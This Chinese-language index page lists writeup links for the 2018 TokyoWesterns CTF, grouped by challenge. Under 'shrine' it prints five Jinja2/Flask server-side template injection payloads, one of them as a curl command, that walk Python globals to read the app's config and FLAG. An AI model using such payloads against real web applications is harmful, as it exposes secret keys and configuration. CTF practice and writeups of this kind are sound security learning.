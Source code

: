 比赛时间：2018/09/01 01:00:00 UTC — 2018/09/03 01:00:00 UTC

比赛地址：https://score.ctf.westerns.tokyo/

### Writeup

- **scs7** 

  https://ctftime.org/writeup/10861 by hackstreetboys

  https://github.com/OAlienO/CTF/tree/master/2018/TokyoWesterns-CTF-4th/scs7

- **pysandbox** 

  https://ctftime.org/writeup/10857 by hackstreetboys

  https://ctftime.org/writeup/10852 by DoubleSigma

  https://github.com/pberba/ctf-solutions/tree/master/20180901_tokyo_western/pysandbox 

  https://github.com/OAlienO/CTF/tree/master/2018/TokyoWesterns-CTF-4th/pysandbox

- **vimshell** 

  https://ctftime.org/writeup/10860 by Lorem Checksum

  https://ctftime.org/writeup/10859 by Lattice

  https://ctftime.org/writeup/10854 by DoubleSigma

- **shrine** 

  几种payload：

  ```bash
  curl -g "http://shrine.chal.ctf.westerns.tokyo/shrine/{{request.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].config['FLAG']}}"
  ```

  ```http
  http://shrine.chal.ctf.westerns.tokyo/shrine/{{session.__class__.__base__.get.__globals__['warnings']['sys']['modules']['app'].__dict__['app'].__dict__}}
  ```

  ```http
  http://shrine.chal.ctf.westerns.tokyo/shrine/{{request.__class__.__dict__['_load_form_data'].__globals__['current_app'].config}}
  ```
  ```http
  http://shrine.chal.ctf.westerns.tokyo/shrine/{{url_for.__globals__['current_app'].config['FLAG']}}
  ```

  ```http
  http://shrine.chal.ctf.westerns.tokyo/shrine/{{get_flashed_messages.__globals__['current_app'].config['FLAG']}}
  ```

  https://ctftime.org/writeup/10851 by DoubleSigma

  https://ctftime.org/writeup/10895 by PwnaSonic

- **SimpleAuth** 

  https://fireshellsecurity.team/simpleauth/ 

  https://ctftime.org/writeup/10876 by E-Toolz

  https://ctftime.org/writeup/10891 by PwnaSonic

- **load** 

  https://lordidiot.github.io/2018-09-03/tokyowesterns-ctf-2018-load-pwn/

  https://github.com/OAlienO/CTF/tree/master/2018/TokyoWesterns-CTF-4th/scs7 

  https://gitlab.com/telnet/CTF-2018/blob/master/twctf/load/README.md

  https://ctftime.org/writeup/10863 

- **Swap Returns** 

  https://ctftime.org/writeup/10864 by 10sec

  https://lordidiot.github.io/2018-09-03/tokyowesterns-ctf-2018-swap-returns-pwn/

  https://gitlab.com/snippets/1750518

- **BBQ** 

  https://changochen.github.io/2018/09/01/Tokyo-Western_CTF-2018/

- **Revolutional Secure Angou** 

  https://4rch4ngel6320.wordpress.com/2018/09/03/revolutional-secure-angou-writeup/

  https://ctftime.org/writeup/10867

  https://ctftime.org/writeup/10865

  https://ctftime.org/writeup/10862

  https://ctftime.org/writeup/10850

- **mixed cipher** 

  https://github.com/GabiTulba/Tokyo-Westerns-2018-Mixed-Cipher-Crypto-Write-up/blob/master/README.md

  https://github.com/OAlienO/CTF/tree/master/2018/TokyoWesterns-CTF-4th/mixed-cipher

- **Neighbor C** 

  https://ctftime.org/writeup/10873 by OpenToAll

- **EscapeMe** 

  [TokyoWesterns CTF 2018 - pwn240+300+300 EscapeMe](https://david942j.blogspot.com/2018/09/write-up-tokyowesterns-ctf-2018.html) 

- **dec dec dec**

  https://github.com/ccowmu/ctf_2018/tree/master/writeups/TokyoCTF2018/dec-dec-dec 

- **Matrix LED**

  https://github.com/p4-team/ctf/tree/master/2018-09-01-tokyowesterns/matrix_led 

- **其他**：

  [Revolutional Secure Angou](https://ctftime.org/writeup/10862) by SealTeam1

  [Tokyo Western CTF 2018 (Qualification Round) Hints for some Crypto challenges](https://github.com/nguyenduyhieukma/CTF-Writeups/tree/master/Tokyo%20Western%20CTF/2018) 

  [TokyoWesterns CTF 4th 2018 - Write-ups](https://rawsec.ml/en/Tokyo-Westerns-2018-write-ups/) 

